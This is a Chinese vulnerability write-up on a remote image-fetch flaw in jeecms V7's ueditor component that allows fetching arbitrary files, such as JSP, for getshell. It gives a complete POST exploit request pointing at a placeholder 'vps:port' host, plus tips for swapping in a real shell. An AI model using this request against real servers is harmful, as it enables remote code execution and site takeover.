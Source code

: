 # 1、漏洞描述

jeecms V7版本的一个上传组件存在远程拉取图片的功能，并将远程拉取的文件保存在服务器上。但程序没有对远程文件的类型做好过滤，导致可从远程拉取任意格式的文件，可直接getshell。

V9版本做了修复，会对远程获取的文件后缀进行校验，并对上传的文件强行重命名。

# 2、漏洞复现

直接上POST包:

data数据中远程文件的后缀写为.jsp?.jpg是尝试绕过，虽然这样能上传上去，但是因强行文件重命名，传上去的也是一个图片。可直接尝试不带?.jpg去检查和利用。

```
POST /ueditor/getRemoteImage.jspx HTTP/1.1
Host: 127.0.0.1
Content-Length: 453
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="93", " Not;A Brand";v="99", "Chromium";v="93"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZUxAA9jVG2OHOQYo
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryZUxAA9jVG2OHOQYo
Content-Disposition: form-data; name="upfile"

http://vps:port/test1.jsp?.jpg
------WebKitFormBoundaryZUxAA9jVG2OHOQYo
Content-Disposition: form-data; name="mark"


------WebKitFormBoundaryZUxAA9jVG2OHOQYo
Content-Disposition: form-data; name="uploadfile"; filename="test1.jsp.jpg"
Content-Type: application/octet-stream

<%out.println("123");%>
------WebKitFormBoundaryZUxAA9jVG2OHOQYo--

```

网站返回json格式的包含 远程图片抓取成功 以及url地址则证明存在漏洞

# 3、poc

因SSRF漏洞利用需要从远端获取信息，若要getshell，需要远端存在shell文件，所以poc需要修改poc_content方法中content参数里的url地址。

脚本中有个坑，post内容里的回车换行，这里用的\r\n表示的，直接回车换行请求会出问题，导致poc验证失败。
